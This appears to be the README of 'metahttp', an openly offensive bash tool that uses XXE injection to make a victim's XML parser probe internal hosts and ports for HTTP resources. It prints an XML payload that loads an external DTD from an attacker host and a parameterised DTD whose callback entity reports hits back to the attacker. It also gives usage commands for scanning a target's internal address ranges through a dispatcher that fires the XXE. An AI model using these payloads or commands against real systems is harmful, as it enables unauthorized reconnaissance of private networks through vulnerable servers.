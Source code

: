 # metahttp

A bash script that automates the scanning of a target network for HTTP resources through XXE

<p align="center">
  <img width="680" src="img/meta.gif"/>
</p>

## How it works

Initially, metahttp hosts an HTTP server that is responsible to deliver the payload DTDs to the target application.
Then the attacker triggers the XXE to have the target server load the DTDs from the server hosted by metahttp.
For example, the external DTDs could be loaded with the following XML document to the victim parser:
```xml
<!DOCTYPE r SYSTEM "http://attacker_host:8080/serveme.dtd"><r></r>
```

The script receives the request and responds with the following DTD:
```xml
<!ENTITY % test_target SYSTEM '${target_protocol}://${target_ip}:${target_port}${target_path}'>
<!ENTITY % callback SYSTEM 'http://${server_hostname}:${http_callback_port}/${callback_path_prefix}${target_ip}_${target_port}'>
<!ENTITY % trigger '%test_target;%callback;'>
%trigger;
```

After receiving the DTD, the XML parser will attempt to substitute the `trigger` parameter entity with its value.
The `trigger` parameter entity includes both `test_target` and `callback`. Now here we depend on the fact that XML parsers will normally process the parameter entities one by one. In case the substitution of an entity fails, they will not proceed with the substitution of the subsequent entities. So now, if we receive a callback to our server, it means that the substitution of the `callback` parameter entity was initiated which with its turn means that the resource pointed by the `test_target` exists.

The above procedure is repeated for all the provided hosts/ports. Since there might be a big number of hosts/ports combinations, the step where the attacker has to trigger the XXE on the target server is automated  through the use of the "dispatcher". The dispatcher is an executable passed to metahttp through the -x option and is responsible for triggering the XXE on the target server. Couple of examples are provided in the dispatcher_examples folder.

## Usage
1. Local testing with a Java app on docker:
```bash
./metahttp.sh -T <(echo dockerhost) -p 80 -x ./dispatcher_examples/docker_java.sh -a /
```

2. Scanning the internal network of a target for a server hosting the resource /path/unique/to/a/service:
```bash
./metahttp.sh -t 10.10.0.0/24,10.20.0.0-10.20.0.15 -p 80,8000-8080,8983 -x ./dispatcher_examples/target_curl.sh -a /path/unique/to/a/service
```

3. More information on the options
```bash
./metahttp.sh --help
```
